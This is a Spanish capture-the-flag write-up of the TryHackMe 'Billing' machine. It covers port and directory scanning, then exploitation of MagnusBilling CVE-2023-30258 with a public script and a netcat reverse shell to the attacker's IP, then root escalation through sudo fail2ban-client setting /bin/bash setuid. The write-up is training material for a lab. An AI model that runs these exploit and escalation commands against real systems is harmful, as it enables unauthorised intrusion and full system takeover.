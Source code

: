 ```yaml
---
description: '✍️ Autor: tryhackme, RunasRs 🔍 Dificultad: Fácil'
---
```


# Billing

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.118.35
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.118.35
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el puerto **22** perteneciente al servicio **SSH,** el puerto **80** perteneciente al servicio **HTTP** y el puerto **3306** perteneciente a **MySQL** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 10.10.118.35
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 213144.png" alt=""><figcaption></figcaption></figure>

Es un panel de **MagnusBilling** por lo que ahora haremos un escaneo de directorios por si hay algo relevante.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://10.10.118.35
```

Encontramos un directorio interesante donde nos menciona la versión y así poder encontrar vulnerabilidad.&#x20;

<div><figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 215053.png" alt=""><figcaption></figcaption></figure></div>

### 🚀 **EXPLOTACIÓN**

{% @github-files/github-code-block url="https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit" %}

```
git clone https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit.git
cd CVE-2023-30258-magnus-billing-v7-exploit
```

Realizamos la Reverse Shell.

```
nc -nlvp 4444
python3 exploit.py -t 10.10.118.35 -a 10.8.146.101 -p 4444
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY.

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Tenemos permiso sudo del binario **fail2ban-client**.

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/" %}

```bash
sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client get ast-cli-attck actions
sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5
/bin/bash -p
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
